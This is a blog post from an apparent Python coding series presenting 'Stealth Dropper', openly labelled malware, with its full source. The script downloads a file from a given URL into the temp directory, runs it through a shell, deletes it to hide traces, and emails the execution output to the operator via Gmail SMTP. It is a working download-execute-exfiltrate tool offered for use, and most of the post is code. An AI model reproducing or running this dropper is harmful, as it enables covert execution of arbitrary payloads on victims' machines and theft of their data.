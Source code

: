 ```yaml
---
title: Malware - Stealth Dropper
date: 2021-08-19 10:45:47 +07:00
categories: python_101
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Downloads, executes, reports and cleans up after.
---
```


<p align="left">
 <img src="https://i.imgflip.com/4/3pt59r.jpg">
</p>

## A Cross Platform python script that downloads, executes, reports and cleans up after.


- We implement:
  > the `tempfile module` - to find the temp dir.

  > the `os module` - to use platform independent functions like chdir to change to the temp dir.

  > the `subprocess module `- to execute and remove the created file.

  > the `smtplib module` - to create an SMTP instance to send our reports back to our proviced mail address.


### Code:

```python
#!/usr/bin/env python

import requests, subprocess, smtplib, os, tempfile, argparse

# Cross-Platform
# Works by default with google's SMTP


def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-d", "--download-file", dest="download", help="File to Download")
    parser.add_argument("-a", "--args", dest="args", help="args if provided by Download file")
    parser.add_argument("-e", "--email", dest="email", help="Email-ID to recieve report")
    parser.add_argument("-p", "--password", dest="password", help="Password for provided Email-ID")
    options = parser.parse_args()
    if not options.download:
        # code to handle error
        parser.error("\n[-] Please specify a valid download url,  use --help for info.")
    if not options.email:
        # code to handle error
        parser.error("\n[-] Please specify a valid Email-ID,  use --help for info.")
    return options


def download(url):
    get_response = requests.get(url)
    file_name = url.split("/")[-1]
    # Open File with write and binary mode
    with open(file_name, "wb") as out_file:
        out_file.write(get_response.content)
    return file_name

def send_mail(email, password, message):
    # Google's SMTP definition
    server = smtplib.SMTP("smtp.gmail.com", 587)
    server.starttls()
    server.login(email, password)
    server.sendmail(email, email, message)
    server.quit()


print("""\n\n\n
                                                        𝕾𝖙𝖊𝖆𝖑𝖙𝖍-𝕯𝖗𝖔𝖕𝖕𝖊𝖗
    """)


print("\n{-} Finding /tmp dir.")
options = get_arguments()


# Find /tmp dir on OS
temp_directory = tempfile.gettempdir()
os.chdir(temp_directory)
print("{+} /tmp dir found!")

# Download
file_name = download(options.download)
print("\n{+} File " + file_name + " has been succesfully dropped!")
# Execute
result = subprocess.check_output(file_name + " " +  options.args, shell=True)
print("{+} File " + file_name + " has been succesfully Executed!")
# Remove
os.remove(file_name)
print("{+} File " + file_name + " has been succesfully Removed!")
# Report
send_mail(options.email, options.password, result)
print("\n\n{!} Report sent to: " + options.email)
```

### Output:

_Console:_

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/Malware-Stealth_Dropper/dropper.png)

_Report:_

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/Malware-Stealth_Dropper/dropper2.png)




